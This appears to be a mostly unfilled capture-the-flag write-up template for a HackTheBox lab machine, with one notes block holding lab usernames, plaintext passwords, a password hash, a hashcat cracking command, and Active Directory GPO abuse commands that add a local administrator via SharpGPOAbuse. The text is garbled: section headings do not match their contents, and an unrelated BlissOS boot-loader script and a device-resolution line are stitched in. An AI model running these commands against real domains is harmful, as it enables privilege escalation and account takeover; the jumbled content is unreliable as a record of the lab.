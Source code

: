 ```yaml
---
os:
status:
tags:
  - GPO_apuse
aliases:
---
```

# Resolution summary

>[!summary]
>- Step 1
>- Step 2

## Improved skills

- Skill 1
- Skill 2

## Used tools

- nmap
- gobuster


---

# Information Gathering

Scanned all TCP ports:

```sh
fiona frizzle 

/uploads/reports

frizzdc.frizz.htb/
FRIZZDC.FRIZZ.HTB

MrGibbonsDB MisterGibbs!Parrot!?1
7y59n5xz-uym-ei9p-7mmq-83vifmtyey2

f.frizzle 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03 /aACFhikmNopqrRTVz2489
hashcat -m 1420 -a 0 haFrizzle /opt/lists/rockyou.txt

Jenni_Luvs_Magic23

M.SchoolBus !suBcig@MehTed!R

New-GPO -Name "hello" | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled YES
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName "hello" --force
gpupdate /force



HUAWEI MateBook E:  2560x1600

```

Enumerated open TCP ports:

```sh
setparams 'BlissOS-16.9.7 2024-10-11'' '/android-2024-10-11' 'BlissOS-16.9.7 2024-10-11' 'quiet'
	savedefault
	set root=$android
	if [ ! -e $2/kernel_a ]; then
		search --no-floppy --set root -f $2/kernel_a
	fi
	set kd=$2
	shift 3
	linux $kd/kernel_a stack_depot_disable=on cgroup_disable=pressure root=/dev/ram0 androidboot.slot_suffix=_a $src $@
	initrd $kd/initrd_a.img
```

Enumerated top 200 UDP ports:

```sh

```

---

# Enumeration

## Port 80 - HTTP (Apache)


---

# Exploitation

## SQL Injection


---

# Lateral Movement to xxx

## Local enumeration


## Lateral movement vector

---

# Privilege Escalation to xxx

## Local enumeration


## Privilege Escalation vector


---

# Trophy

{{image}}

>[!todo] **User.txt**
>flag

>[!todo] **Root.txt**
>flag

**/etc/shadow**

```sh

```